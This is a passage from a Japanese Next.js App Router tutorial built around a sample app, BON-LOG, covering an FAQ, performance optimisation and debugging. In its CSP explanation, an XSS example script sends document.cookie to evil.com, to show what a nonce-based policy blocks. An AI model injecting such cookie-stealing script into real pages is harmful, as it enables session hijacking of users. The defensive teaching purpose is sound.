  | プロフィール更新 | Server Actions |
  | Stripe Webhook受信 | Route Handler |
  | ファイルアップロード | Route Handler |
  | 未読バッジ数取得 | Route Handler |
  | ヘルスチェック | Route Handler |
  | Cronバッチ処理 | Route Handler |
```
</details>

<details>
<summary>Q5: 「next/link を使わずに普通の &lt;a&gt; タグを使うとどうなりますか？」</summary>

**A:** 動作はしますが、パフォーマンスが大幅に低下します。

```
【next/link vs <a> タグ の違い】

  next/link（推奨）:
  ├── クライアントサイドナビゲーション（ページ全体の再読み込みなし）
  ├── ビューポートに入ったリンクを自動プリフェッチ
  ├── JavaScriptバンドルの部分読み込み
  └── 体感的に「瞬時」のページ遷移

  <a> タグ:
  ├── フルページリロード（サーバーにHTMLを再リクエスト）
  ├── JavaScript、CSS、画像をすべて再ダウンロード
  ├── React状態がすべてリセットされる
  └── 体感的に「遅い」ページ遷移

  外部リンクの場合:
  → <a> タグを使う（target="_blank" rel="noopener noreferrer" 推奨）
```

BON-LOG内の遷移は必ず`next/link`を使い、外部リンク（Twitterプロフィール等）のみ`<a>`タグを使っています。
</details>

### キャッシュに関するFAQ

<details>
<summary>Q6: 「unstable_cache はなぜ "unstable" なのですか？ 本番で使って大丈夫ですか？」</summary>

**A:** `unstable_`プレフィックスは、Next.js開発チームがAPIを将来変更する可能性があることを示しています。しかし、これは「不安定で壊れやすい」という意味ではありません。

```
【"unstable_" の意味】

  "unstable_" = APIの安定性保証がない

  具体的に何が変わる可能性があるか:
  ├── 関数名が変更される（例: unstable_cache → cache）
  ├── 引数の形式が変わる
  ├── オプションの名前が変わる
  └── 新しいオプションが追加される

  変わらないもの:
  ├── 基本的な機能（キャッシュする・無効化する）
  └── 動作の安定性（本番で問題なく動く）

  対策:
  ├── Next.jsのアップグレード時にリリースノートを確認
  ├── BON-LOGではlib/cache.tsに集約しているため、
  │   変更があっても1ファイルの修正で対応可能
  └── テストを書いておけば変更の影響を検知できる
```

BON-LOGでは本番環境で`unstable_cache`を使用しており、問題なく動作しています。キャッシュ関連の処理を`lib/cache.ts`に集約しているため、将来APIが変更されても影響を最小限に抑えられます。
</details>

<details>
<summary>Q7: 「revalidatePath と revalidateTag はいつ使い分けるのですか？」</summary>

**A:** 影響範囲の広さで使い分けます。

```
【revalidatePath vs revalidateTag】

  revalidatePath('/feed'):
  ├── /feed パスに関連するすべてのキャッシュを無効化
  ├── そのパスのページ全体が再生成される
  └── 使用例: 投稿作成後にタイムラインを更新

  revalidateTag('genres'):
  ├── 'genres' タグが付いたキャッシュだけを無効化
  ├── 他のキャッシュには影響しない（ピンポイント）
  └── 使用例: 管理者がジャンルを更新した時

  判断基準:
  「特定のデータだけ更新したい？」
    Yes → revalidateTag（精密な制御）
    No  → revalidatePath（ページ全体のリフレッシュ）

  ※ Server Action内では revalidatePath がよく使われます。
  Server Actionはフォーム送信後にページを更新するため、
  パス単位の無効化が自然です。
```
</details>

### proxy.ts（Middleware）・認証に関するFAQ

<details>
<summary>Q8: 「proxy.ts（Middleware）で Prisma を直接使えないのはなぜですか？」</summary>

**A:** proxy.ts（Middleware）はEdge Runtimeで実行されるため、Node.jsネイティブモジュールに依存するライブラリが動作しません。

```
【Edge Runtime の制約と回避策】

  Edge Runtime で動作するもの:
  ├── Web標準API（fetch, Request, Response, URL）
  ├── crypto.getRandomValues()
  ├── btoa() / atob()
  └── TextEncoder / TextDecoder

  Edge Runtime で動作しないもの:
  ├── Prisma Client（デフォルト）
  ├── fs（ファイルシステム）
  ├── child_process（子プロセス）
  └── Node.js ネイティブモジュール

  回避策:

  | 方法 | BON-LOGでの使用例 |
  |------|-------------------|
  | KVストアのREST API | Upstash Redis（メンテナンスチェック） |
  | @prisma/client/edge を使用 | （将来の選択肢） |
  | API Route経由でfetch | /api/maintenance/status（メンテナンスUI用） |

  BON-LOGのproxy.ts（Middleware）:
  メンテナンスモードのチェックで、Edge Runtimeから
  Upstash Redis REST API に直接fetchしてフラグを取得しています。
  自己HTTPリクエスト（自分のAPI Routeへのfetch）を避けるため、
  Redisに直接アクセスする設計になっています。
```
</details>

<details>
<summary>Q9: 「callbackUrl とは何ですか？ なぜ必要ですか？」</summary>

**A:** `callbackUrl`は「ログイン後にリダイレクトする先のURL」です。認証が必要なページに未ログインでアクセスした場合、ログインページへリダイレクトしますが、ログイン完了後に元のページへ戻すために使います。

```
【callbackUrl の流れ】

  1. ユーザーが /settings にアクセス（未ログイン）
  2. proxy.ts（Middleware）が検知 → /login?callbackUrl=/settings にリダイレクト
  3. ユーザーがログイン
  4. ログイン成功 → callbackUrl（/settings）にリダイレクト
  5. ユーザーは元々アクセスしたかった /settings を表示

  もしcallbackUrlがなかったら:
  1. ユーザーが /settings にアクセス（未ログイン）
  2. /login にリダイレクト
  3. ログイン成功 → /feed にリダイレクト（デフォルト）
  4. ユーザーは「あれ、settingsに行きたかったのに...」となる
```

BON-LOGのproxy.ts（Middleware）での実装:

```typescript
// proxy.ts（Next.js 16）（該当部分）
if (isProtected && !isLoggedIn) {
  const redirectUrl = new URL('/login', nextUrl)
  redirectUrl.searchParams.set('callbackUrl', nextUrl.pathname)
  // /login?callbackUrl=/settings のようなURLが生成される
  return addSecurityHeaders(NextResponse.redirect(redirectUrl), nonce)
}
```
</details>

<details>
<summary>Q10: 「CSP（Content Security Policy）とは何ですか？ なぜ必要ですか？」</summary>

**A:** CSPは、ブラウザに「どのソースからのスクリプト・画像・スタイルを許可するか」を指示するセキュリティヘッダーです。XSS（クロスサイトスクリプティング）攻撃を防ぐために不可欠です。

```
【CSP なしの場合の危険性】

  攻撃者がコメント欄に悪意のあるスクリプトを投入:
  <script>
    // ユーザーのセッション情報を攻撃者のサーバーに送信
    fetch('https://evil.com/steal?cookie=' + document.cookie)
  </script>

  CSPなし:
  → ブラウザがそのまま実行 → セッション情報が漏洩！

  CSPあり（nonce方式）:
  Content-Security-Policy: script-src 'nonce-abc123'
  → nonce="abc123" を持たないスクリプトはブロック！
  → 攻撃者はnonceの値を知らないため実行されない

  BON-LOGでの設定:
  ├── 自社スクリプト: nonce方式で許可
  ├── 画像: self + R2ストレージ + OpenStreetMapタイル
  ├── フォント: Google Fonts
  ├── iframe: 広告ネットワークのみ許可
  └── その他: default-src 'self'（自分のドメインのみ）
```
</details>

### ビルド・デプロイに関するFAQ

<details>
<summary>Q11: 「npm run build でエラーが出ます。何が原因ですか？」</summary>

**A:** ビルドエラーの主な原因と対処法は以下の通りです。

```
【ビルドエラーの主な原因と対処法】

  1. TypeScript型エラー
     原因: 型定義の不整合
     対処: npm run lint で事前にチェック

  2. Server Component で Client API を使用
     原因: 'use client' の付け忘れ
     対処: useState, useEffect を使うコンポーネントに 'use client' を追加

  3. 環境変数が未設定
     原因: .env.local がない or DATABASE_URL が未設定
     対処: .env.local.example をコピーして設定

  4. 動的ページのビルドエラー
     原因: ビルド時にDBに接続できない
     対処: export const dynamic = 'force-dynamic' を設定

  5. 依存パッケージの不整合
     原因: node_modules が古い
     対処: rm -rf node_modules && npm install

  デバッグの順序:
  [1] エラーメッセージをよく読む（ファイル名と行番号を確認）
  [2] npm run lint を実行（型エラーをチェック）
  [3] .env.local の設定を確認
  [4] node_modules を再インストール
```
</details>

<details>
<summary>Q12: 「development（開発環境）と production（本番環境）で動作が違うのはなぜですか？」</summary>

**A:** Next.jsは環境に応じて動作を最適化しています。

```
【development と production の違い】

  開発環境（npm run dev）:
  ├── ホットリロード有効（ファイル保存で即反映）
  ├── エラーの詳細表示（スタックトレース）
  ├── キャッシュが効かない（常に最新データ）
  ├── ソースマップあり（デバッグ容易）
  └── パフォーマンス最適化なし

  本番環境（npm run build → npm run start）:
  ├── ファイル変更の検知なし
  ├── エラーは一般的なメッセージのみ表示
  ├── キャッシュが有効（パフォーマンス重視）
  ├── ソースマップなし（セキュリティ重視）
  ├── コード圧縮・最適化あり
  └── セキュリティヘッダーが強化される（HSTS等）

  よくある「本番で動かない」問題:
  ├── 環境変数が設定されていない
  ├── ビルド時にDBに接続できない
  ├── NEXT_PUBLIC_ プレフィックスの付け忘れ
  │   （クライアントで使う環境変数に必要）
  └── Edge RuntimeでNode.js APIを使っている
```
</details>

### 理解度チェック

<details>
<summary>Q1: Server Actionの中で `revalidatePath('/feed')` を呼ぶ理由を説明してください。</summary>

**A:** Server Actionでデータを変更した後（例: 新しい投稿を作成した後）、タイムライン（`/feed`）のページキャッシュを無効化することで、次にそのページにアクセスした時に最新のデータが表示されるようにするためです。`revalidatePath`を呼ばないと、キャッシュされた古いデータが表示され続け、ユーザーが作成した投稿がすぐに反映されないように見えてしまいます。
</details>

<details>
<summary>Q2: `export const dynamic = 'force-dynamic'` はどのような場合に必要ですか？</summary>

**A:** ビルド時には存在しないデータ（データベースの内容）に依存するページやRoute Handlerに必要です。具体的には、(1) sitemap.tsのようにDBからURLリストを生成するファイル、(2) maintenance/statusのように常に最新状態を返す必要があるAPI、(3) 認証状態に依存するページなどです。`force-dynamic`を設定すると、Next.jsはそのページをビルド時に静的生成しようとせず、毎リクエスト時にサーバーで動的に生成します。
</details>

### Next.js App Router 主要概念の早見表

ここまでに学んだ概念を一覧にまとめます。実装時に迷ったら参照してください。

```
【Next.js App Router 主要概念サマリー】

  | 概念 | 要約 |
  |------|------|
  | Server Component | デフォルト。サーバーで実行。async/await可能。JSがクライアントに送信されない。 |
  | Client Component | 'use client'付き。Hooks・イベントハンドラ可。JSがクライアントに送信される。 |
  | Server Action | 'use server'付きの関数。フォーム送信・データ変更に使用。サーバーで実行される。 |
  | Route Handler | app/api/配下のroute.ts。REST API端点。Webhook、Cron、ファイルアップロードに使用。 |
  | Middleware | 全リクエストに適用。Edge Runtimeで実行。認証チェック、セキュリティヘッダー付与。 |
  | instrumentation.ts | サーバー起動時に1回実行。Sentry初期化、セキュリティチェックに使用。 |
  | unstable_cache | リクエスト間のデータキャッシュ。revalidate/tagsで制御。 |
  | React cache | 1リクエスト内のメモ化。同じ関数の重複呼び出しを防止。 |
  | generateMetadata | 動的ページのメタデータ生成関数。DBからデータを取得してSEO情報を設定。 |
  | robots.ts | /robots.txtとして配信。クローラーのアクセス制御。 |
  | sitemap.ts | /sitemap.xmlとして配信。DBからURLリストを動的生成。 |
  | Route Groups | (folder)形式。URLに影響せずルート整理。BON-LOGでは(auth)/(main)/(legal)/(public)+admin/の5レイアウト。 |
  | Dynamic Routes | [id]形式。パラメータに応じたページ生成。params はPromise<{id: string}>型。 |
  | next/image | 画像自動最適化。WebP変換、遅延読み込み。width/height必須。LCPにはpriority。 |
  | next/link | クライアントサイドナビゲーション。自動プリフェッチ。内部リンクに必須。 |
```

```
【BON-LOGの特殊ファイル一覧】

  プロジェクトルート/
  ├── proxy.ts              → 全リクエストに適用されるMiddleware（Next.js 16 で middleware.ts から名称変更）
  ├── instrumentation.ts   → サーバー起動時の初期化
  ├── next.config.ts        → Next.js設定（Sentry、画像最適化等）
  ├── sentry.server.config.ts → Sentry(Node.js)設定
  ├── sentry.edge.config.ts   → Sentry(Edge)設定
  ├── sentry.client.config.ts → Sentry(Client)設定
  │
  app/
  ├── layout.tsx            → ルートレイアウト（全ページ共通）
  ├── providers.tsx         → Client Componentプロバイダー（React Query, Theme等）
  ├── global-error.tsx      → グローバルエラーバウンダリ（Sentry連携）
  ├── page.tsx              → トップページ
  ├── robots.ts             → /robots.txt を生成
  ├── sitemap.ts            → /sitemap.xml を生成
  ├── not-found.tsx         → 404ページ
  │
  app/(auth)/
  ├── layout.tsx            → 認証レイアウト（中央寄せカード）
  ├── login/page.tsx        → ログインページ
  ├── register/page.tsx     → ユーザー登録ページ
  └── password-reset/page.tsx → パスワードリセットページ
  │
  app/(main)/
  ├── layout.tsx            → メインレイアウト（3カラム + 認証チェック）
  └── feed/
      ├── page.tsx          → タイムラインページ
      ├── loading.tsx       → ローディングスケルトン
      └── error.tsx         → エラー表示
  │
  app/(legal)/
  ├── layout.tsx            → 法的ページレイアウト（ヘッダー+フッター）
  ├── terms/page.tsx        → 利用規約
  └── privacy/page.tsx      → プライバシーポリシー
  │
  app/(public)/
  ├── layout.tsx            → 公開ページレイアウト（ユーザー存在確認付き）
  └── help/page.tsx         → ヘルプセンター
  │
  app/admin/
  ├── layout.tsx            → 管理者レイアウト（サイドバー + 権限チェック）
  └── page.tsx              → 管理者ダッシュボード

  lib/
  ├── db.ts                 → Prismaクライアント（シングルトン）
  ├── auth.ts               → NextAuth.js設定
  ├── cache.ts              → unstable_cacheキャッシュ戦略
  ├── security-checks.ts    → 起動時セキュリティチェック
  └── actions/              → Server Actions
      ├── post.ts           → 投稿関連
      ├── user.ts           → ユーザー関連
      └── ...
```

---

## 5.19 パフォーマンス最適化実践ガイド

### このセクションで学ぶこと

- Next.js App Routerでのパフォーマンス最適化の全体戦略
- キャッシュ階層の理解と適切な設定
- 画像・フォント・バンドルサイズの最適化手法
- BON-LOGで実践している具体的な最適化テクニック
- Core Web Vitalsの改善方法

### パフォーマンス最適化の全体像

Webアプリケーションのパフォーマンスは「ユーザーがいかに速くコンテンツを見られるか」で決まります。Next.js App Routerには、パフォーマンスを最適化するための仕組みが数多く組み込まれています。

```
【パフォーマンス最適化の4つの柱】

  1. キャッシュ戦略
     └── 同じデータを何度も取得しない
         ├── React cache（リクエスト内メモ化）
         ├── unstable_cache（リクエスト間キャッシュ）
         └── fetchキャッシュ（HTTP応答キャッシュ）

  2. レンダリング最適化
     └── 必要な部分だけを更新する
         ├── Server Components（JSバンドル削減）
         ├── Streaming + Suspense（段階的表示）
         └── 部分的プリレンダリング（PPR）

  3. アセット最適化
     └── ファイルサイズを小さくする
         ├── next/image（画像自動最適化）
         ├── next/font（フォント最適化）
         └── Dynamic Import（コード分割）

  4. ネットワーク最適化
     └── 通信を効率化する
         ├── next/link（プリフェッチ）
         ├── Route Handler（API最適化）
         └── CDN配信（Vercel Edge Network）
```

### キャッシュ階層の理解

Next.jsのキャッシュは複数の層で構成されています。それぞれの層がどのように連携するかを理解することが、パフォーマンス最適化の鍵です。

**Next.js キャッシュの4層構造**


```mermaid
flowchart TD
    Request[リクエスト]
    Request --> Layer1["[層1] ブラウザキャッシュ<br/>(Cache-Control ヘッダー)<br/>HTTPレスポンスヘッダーで制御<br/>同じURLへの再リクエストを防止"]
    Layer1 --> Layer2["[層2] CDNキャッシュ<br/>(Vercel Edge Network)<br/>世界中のエッジサーバーにコピー<br/>物理的に近いサーバーから配信"]
    Layer2 --> Layer3["[層3] Next.jsデータキャッシュ<br/>(unstable_cache / fetch cache)<br/>サーバー側でデータをキャッシュ<br/>DBクエリの結果を再利用"]
    Layer3 --> Layer4["[層4] React Requestメモ化<br/>(React cache)<br/>1リクエスト内でのデータ重複防止<br/>generateMetadata と page で同じデータを使う場合"]

    style Layer1 fill:#fff9e6
    style Layer2 fill:#e6f3ff
    style Layer3 fill:#f0f8ff
    style Layer4 fill:#d4f1d4
```

例: ジャンル一覧の取得
- 1回目: [層4] miss → [層3] miss → DB問い合わせ → キャッシュ保存
- 2回目（同リクエスト）: [層4] hit → DBアクセスなし
- 3回目（別リクエスト、1時間以内）: [層3] hit → DBアクセスなし
- 4回目（1時間後）: [層3] expired → DB再問い合わせ → キャッシュ更新

### Server Componentsによるバンドルサイズ削減

Server Componentsの最大のメリットの一つは、サーバーでのみ実行されるコードがクライアントに送信されないことです。

```
【Server Component vs Client Component のバンドルへの影響】

  Server Component:
  ├── サーバーで実行 → HTMLを生成
  ├── コンポーネントのJavaScriptはクライアントに送信されない
  ├── インポートしたライブラリ（Prisma等）もバンドルに含まれない
  └── 結果: クライアントが受け取るJSが小さい → 表示が速い

  Client Component:
  ├── サーバーでプリレンダリング → HTMLを生成
  ├── コンポーネントのJavaScriptもクライアントに送信される
  ├── ハイドレーション（HTMLとJSの結合）が必要
  └── 結果: クライアントが受け取るJSが大きい → 表示に時間がかかる

  BON-LOGでの実例:

  | コンポーネント | 種別 | 理由 |
  |---------------|------|------|
  | PostPage | Server | データ取得のみ |
  | PostContent | Server | テキスト表示のみ |
  | LikeButton | Client | onClick必要 |
  | CommentForm | Client | useState必要 |
  | UserProfile | Server | データ表示のみ |
  | FollowButton | Client | onClick必要 |
  | MapWrapper | Client | Leaflet(ssr:false) |
```

### Streaming と Suspense による段階的表示

重いデータ取得を含むページでは、Suspenseを使って段階的に表示することで、ユーザーの体感速度を向上できます。

```typescript
// app/(main)/feed/page.tsx のようなイメージ
import { Suspense } from 'react'

export default function FeedPage() {
  return (
    <div>
      {/* ヘッダーは即座に表示 */}
      <h1>タイムライン</h1>

      {/* 投稿フォームも即座に表示（Client Component） */}
      <PostForm />

      {/* タイムラインは非同期で取得・表示 */}
      <Suspense fallback={<PostListSkeleton />}>
        <PostList />  {/* async Server Component: DBからデータ取得 */}
      </Suspense>

      {/* サイドバーのトレンドも非同期 */}
      <Suspense fallback={<TrendingSkeleton />}>
        <TrendingGenres />
      </Suspense>
    </div>
  )
}
```

```
【Streamingの流れ】

  サーバー                          ブラウザ
    |                                 |
    |--- HTMLの最初の部分を送信 ------>|
    |    (ヘッダー、PostForm、        | ← ユーザーはすぐに
    |     スケルトン表示)              |    コンテンツを見始められる
    |                                 |
    | (PostListのデータを取得中...)    | ← スケルトンが表示されている
    |                                 |
    |--- PostListのHTML断片を送信 --->|
    |    (タイムラインの実際のデータ)  | ← スケルトンが実際の
    |                                 |    コンテンツに置き換わる
    |                                 |
    | (TrendingGenresを取得中...)     |
    |                                 |
    |--- TrendingGenresを送信 ------->|
    |                                 | ← トレンドが表示される

  従来のSSR: すべてのデータが揃ってから一気にHTML送信
  Streaming: 準備できた部分から順次送信
  → ユーザー体感の「ページ表示速度」が大幅に向上
```

### Dynamic Importによるコード分割

重いライブラリは、必要な時にだけ読み込む（遅延読み込み）ことでバンドルサイズを削減できます。

```typescript
import dynamic from 'next/dynamic'

// ❌ 通常のインポート: Leaflet（約200KB）がページのJSバンドルに含まれる
import { MapWrapper } from '@/components/shop/MapWrapper'

// ✅ Dynamic Import: MapWrapper が実際に表示される時にだけ読み込む
const MapWrapper = dynamic(
  () => import('@/components/shop/MapWrapper').then(mod => ({ default: mod.MapWrapper })),
  {
    ssr: false,                              // サーバーでは実行しない
    loading: () => <MapSkeleton />,          // 読み込み中の表示
  }
)
```

```
【Dynamic Import の効果】

  ページの初期JSバンドル:
  ├── 通常のimport:    500KB（Leaflet含む）
  └── Dynamic Import:  300KB（Leaflet除外）

  地図が必要になった時:
  └── Leaflet: 200KB（別ファイルとして遅延読み込み）

  結果:
  ├── 初回表示が200KB分速くなる
  ├── 地図を見ないユーザーは200KBのダウンロードを回避
  └── モバイル回線でも快適に利用可能

  BON-LOGで Dynamic Import を使用しているもの:
  ├── MapView（Leaflet / OpenStreetMap）- ssr: false
  ├── RichEditor（リッチテキストエディタ）
  └── ChartComponent（管理画面のグラフ）
```

### next/image による画像最適化

Next.jsの`Image`コンポーネントは自動的に画像を最適化します。

```typescript
import Image from 'next/image'

// BON-LOGでの使用例
<Image
  src={user.avatarUrl || '/default-avatar.png'}
  alt={`${user.nickname}のプロフィール画像`}
  width={48}
  height={48}
  className="rounded-full"
  // LCP（Largest Contentful Paint）対象の画像にはpriorityを付与
  // priority={true}
/>
```

```
【next/image が自動的に行う最適化】

  1. フォーマット変換
     ├── JPEG/PNG → WebP（ブラウザが対応していれば）
     └── サイズ削減: 平均30-50%

  2. リサイズ
     ├── 指定されたwidth/heightに合わせてリサイズ
     └── srcSet生成（デバイスに応じた複数サイズ）

  3. 遅延読み込み
     ├── ビューポート外の画像は読み込まない（loading="lazy"）
     └── スクロールして近づいたら読み込み開始

  4. プレースホルダー
     ├── blur: ぼかし画像を先に表示
     └── empty: 空のスペースを確保（CLS防止）

  投稿画像の例:
  元画像: 4000x3000px, JPEG, 3.2MB
  最適化後: 800x600px, WebP, 85KB
  → サイズが約97%削減！
```

### Core Web Vitals の改善

GoogleはCore Web Vitalsをランキング要因として使用しています。Next.js App Routerの機能を活用して、これらの指標を改善しましょう。

```
【Core Web Vitals とは】

  LCP（Largest Contentful Paint）: 最大コンテンツの表示速度
  ├── 目標: 2.5秒以内
  ├── 改善策:
  │   ├── Server Componentsでのデータ取得（初回HTMLにデータ含む）
  │   ├── next/image の priority 属性（LCP画像を優先読み込み）
  │   ├── next/font でフォントを最適化
  │   └── Streaming で段階的に表示
  │
  FID/INP（First Input Delay / Interaction to Next Paint）: 操作応答性
  ├── 目標: 200ms以内
  ├── 改善策:
  │   ├── Client Componentを最小限に
  │   ├── Dynamic Import で初期JSを削減
  │   └── 重い処理を Web Worker に移動
  │
  CLS（Cumulative Layout Shift）: レイアウトの安定性
  ├── 目標: 0.1以下
  ├── 改善策:
  │   ├── next/image で画像サイズを事前指定（width/height）
  │   ├── フォント読み込み時のレイアウトシフト防止（next/font）
  │   └── Skeleton UIでコンテンツ領域を確保

  BON-LOGでの測定:
  ├── Vercel Analytics（自動収集）
  ├── Google PageSpeed Insights
  └── Chrome DevTools の Lighthouse
```

### データベースクエリの最適化

キャッシュだけでなく、クエリそのものの最適化も重要です。

```typescript
// ❌ 悪い例: 不必要なフィールドをすべて取得
const user = await prisma.user.findUnique({
  where: { id: userId },
  // select を指定しないとすべてのフィールドを取得
  // password, email など不要なフィールドも含まれる
})

// ✅ 良い例: 必要なフィールドのみ取得（select）
const user = await prisma.user.findUnique({
  where: { id: userId },
  select: {
    id: true,
    nickname: true,
    avatarUrl: true,
    // password, email は取得しない → 転送量削減 + セキュリティ向上
  },
})
```

```typescript
// ❌ 悪い例: N+1問題（投稿ごとにユーザー情報を取得）
const posts = await prisma.post.findMany({ take: 20 })
for (const post of posts) {
  const user = await prisma.user.findUnique({
    where: { id: post.userId },
  })
  // 20回のDBクエリが発生！
}

// ✅ 良い例: includeで一度にリレーションデータを取得
const posts = await prisma.post.findMany({
  take: 20,
  include: {
    user: {
      select: { id: true, nickname: true, avatarUrl: true },
    },
  },
  // 1回のDBクエリですべてのデータを取得
})
```

```
【N+1問題とは】

  投稿20件を表示する場合:

  ❌ N+1パターン:
  1回目: SELECT * FROM posts LIMIT 20        ← 投稿一覧
  2回目: SELECT * FROM users WHERE id = 'a'  ← 投稿1のユーザー
  3回目: SELECT * FROM users WHERE id = 'b'  ← 投稿2のユーザー
  ...
  21回目: SELECT * FROM users WHERE id = 'z' ← 投稿20のユーザー

  合計: 21回のDBクエリ（1 + N）

  ✅ includeパターン:
  1回目: SELECT posts.*, users.* FROM posts
         JOIN users ON posts.user_id = users.id
         LIMIT 20

  合計: 1回のDBクエリ

  パフォーマンス差:
  ├── N+1:     約500ms（20回のネットワーク往復）
  └── include: 約25ms（1回のネットワーク往復）
```

### 並列データ取得（Promise.all）

複数の独立したデータ取得は、`Promise.all`で並列実行しましょう。

```typescript
// ❌ 悪い例: 逐次実行（直列）
const user = await getUser(userId)       // 100ms
const posts = await getUserPosts(userId)  // 200ms
const followers = await getFollowers(userId) // 150ms
// 合計: 450ms（100 + 200 + 150）

// ✅ 良い例: 並列実行
const [user, posts, followers] = await Promise.all([
  getUser(userId),        // 100ms ┐
  getUserPosts(userId),    // 200ms ├─ 同時に実行
  getFollowers(userId),    // 150ms ┘
])
// 合計: 200ms（最も遅いものの時間）
```

```
【逐次 vs 並列 のタイムライン】

  逐次実行:
  |--- getUser (100ms) ---|--- getUserPosts (200ms) ---|--- getFollowers (150ms) ---|
  0ms                    100ms                       300ms                        450ms

  並列実行:
  |--- getUser (100ms) ---|
  |--- getUserPosts (200ms) ---|
  |--- getFollowers (150ms) ---|
  0ms                        200ms

  ※ 各クエリが独立している（お互いの結果に依存しない）場合にのみ使用可能
  ※ 依存関係がある場合は逐次実行が必要:
     const user = await getUser(userId)
     const posts = await getUserPosts(user.id)  // userの結果が必要
```

BON-LOGのメンテナンスステータスAPIでも、この並列取得パターンを使っています。

```typescript
// app/api/maintenance/status/route.ts
// 管理者チェックとメンテナンス設定取得を並列実行
const [adminUser, setting] = await Promise.all([
  userId
    ? prisma.adminUser.findUnique({
        where: { userId },
        select: { userId: true },
      })
    : null,
  prisma.systemSetting.findUnique({
    where: { key: 'maintenance_mode' },
    select: { value: true },
  }),
])
```

### パフォーマンス最適化チェックリスト

```
【Next.js パフォーマンス最適化チェックリスト】

  □ Server Components をデフォルトで使用
    └── 'use client' は最小限に（末端のインタラクティブ部分のみ）

  □ データ取得をServer Componentで行う
    └── async/awaitで直接DBアクセス（API経由不要）

  □ unstable_cache で共通データをキャッシュ
    └── ジャンルマスタ、トレンドデータなど

  □ Promise.all で並列データ取得
    └── 独立したクエリは同時実行

  □ Prisma の select で必要なフィールドのみ取得
    └── include 時もネストした select を使う

  □ N+1 問題を include で解決
    └── リレーションデータは JOIN で取得

  □ next/image を使用
    └── width/height 必須、LCP画像には priority

  □ Dynamic Import で重いライブラリを遅延読み込み
    └── 地図、エディタ、グラフなど

  □ Suspense で段階的表示
    └── 重いデータ取得コンポーネントをラップ

  □ next/link を使用
    └── 内部リンクはすべて next/link で自動プリフェッチ
```

### 理解度チェック

<details>
<summary>Q1: N+1問題とは何ですか？Prismaでどう解決しますか？</summary>

**A:** N+1問題とは、一覧データ（N件）を取得した後に、各アイテムに関連するデータを個別に取得する（N回のクエリ）ことで、合計N+1回のDBクエリが発生する問題です。Prismaでは`include`オプションを使ってリレーションデータを1回のクエリで取得することで解決します。`include: { user: { select: { id: true, nickname: true } } }`のように指定すると、PrismaがJOINを使った効率的なSQLを生成します。
</details>

<details>
<summary>Q2: Promise.allを使うべきでない場合はどんな場合ですか？</summary>

**A:** データ取得に依存関係がある場合です。例えば、ユーザーIDを取得してから、そのIDを使って投稿を取得する場合は、ユーザーの取得が完了するまで投稿の取得を開始できません。このような場合は逐次実行（await を順番に使う）が必要です。また、一つの失敗で全体を中止したくない場合は`Promise.allSettled`を使うこともあります。
</details>

---

## 5.20 Next.js開発のデバッグ手法

### このセクションで学ぶこと

- Next.js App Routerでの効果的なデバッグ方法
- Server ComponentとClient Componentそれぞれのデバッグ手法
- よくあるエラーメッセージの読み方と対処法
- Chrome DevToolsとNext.js開発ツールの活用
- BON-LOGの開発で役立つデバッグテクニック

### Server Component のデバッグ

Server Componentはサーバー側で実行されるため、`console.log`の出力はターミナル（サーバーのログ）に表示されます。ブラウザのデベロッパーツールには表示されません。

```typescript
// app/(main)/posts/[id]/page.tsx (Server Component)
export default async function PostPage({
  params,
}: {
  params: Promise<{ id: string }>
}) {
  const { id } = await params

  // ✅ サーバーのターミナルに出力される
  console.log('PostPage rendering, id:', id)

  const post = await prisma.post.findUnique({
    where: { id },
    include: { user: true },
  })

  // データの中身を確認
  console.log('Post data:', JSON.stringify(post, null, 2))

  if (!post) {
    notFound()
  }

  return <PostDetail post={post} />
}
```

```
【Server Component のデバッグ出力先】

```mermaid
flowchart LR
    subgraph ServerComponent["Server Component"]
        SC_Log[console.log]
        SC_Log --> Terminal[ターミナル<br/>npm run dev の出力]
    end

    subgraph ClientComponent["Client Component"]
        CC_Log[console.log]
        CC_Log --> DevTools[ブラウザDevTools<br/>Consoleタブ]
    end

    style ServerComponent fill:#d4f1d4
    style ClientComponent fill:#ffe6e6
    style Terminal fill:#f0f8ff
    style DevTools fill:#fff9e6
```

確認方法:

**[Server Component]**
1. npm run dev を実行しているターミナルを見る
2. ページにアクセスすると、ターミナルにログが出力される

**[Client Component]**
1. ブラウザでF12（またはCtrl+Shift+I）を開く
2. Console タブを確認
```

### Client Component のデバッグ

Client Componentは通常のReactコンポーネントと同様に、ブラウザのデベロッパーツールでデバッグします。

```typescript
// components/post/LikeButton.tsx (Client Component)
'use client'

import { useState, useTransition } from 'react'
import { toggleLike } from '@/lib/actions/post'

export function LikeButton({ postId, initialLiked }: {
  postId: string
  initialLiked: boolean
}) {
  const [liked, setLiked] = useState(initialLiked)
  const [isPending, startTransition] = useTransition()

  // ブラウザのConsoleに出力される
  console.log('LikeButton render:', { postId, liked, isPending })

  async function handleClick() {
    console.log('Like clicked:', postId)

    startTransition(async () => {
      const result = await toggleLike(postId)
      console.log('toggleLike result:', result)

      if (result.success) {
        setLiked(result.liked)
      }
    })
  }

  return (
    <button onClick={handleClick} disabled={isPending}>
      {liked ? 'いいね済み' : 'いいね'}
    </button>
  )
}
```

### Server Actions のデバッグ

Server Actionsは「クライアントから呼び出されるが、サーバーで実行される」という性質があるため、デバッグに注意が必要です。

```typescript
// lib/actions/post.ts
'use server'

import { auth } from '@/lib/auth'
import { prisma } from '@/lib/db'

export async function createPost(formData: FormData) {
  // ✅ サーバーのターミナルに出力される
  console.log('createPost called')
  console.log('FormData entries:')
  for (const [key, value] of formData.entries()) {
    console.log(`  ${key}:`, value)
  }

  const session = await auth()
  console.log('Session:', session?.user?.id || 'not authenticated')

  if (!session?.user?.id) {
    console.log('Auth check failed')
    return { error: '認証が必要です' }
  }

  try {
    const post = await prisma.post.create({
      data: {
        userId: session.user.id,
        content: formData.get('content') as string,
      },
    })
    console.log('Post created:', post.id)
    return { success: true, postId: post.id }
  } catch (error) {
    // エラーの詳細をログ
    console.error('createPost error:', error)
    return { error: '投稿に失敗しました' }
  }
}
```

```
【Server Action のデバッグの流れ】

  ブラウザ                           サーバー
    |                                  |
    | [投稿ボタンをクリック]            |
    |                                  |
    |--- POST (Server Action) -------->|
    |                                  | console.log('createPost called')
    |                                  | console.log('FormData entries:')
    |                                  | console.log('Session: user123')
    |                                  | console.log('Post created: post456')
    |                                  |
    |<-- { success: true } ------------|
    |                                  |
    | [クライアントで結果を表示]        |
    | console.log('result:', result)   |

  ※ Server Action内のconsole.logはターミナルに出力
  ※ 呼び出し元のconsole.logはブラウザDevToolsに出力
```

### よくあるエラーメッセージと対処法

#### Error: "You're importing a component that needs 'useState'..."

```
【エラーメッセージ】
Error: You're importing a component that needs useState.
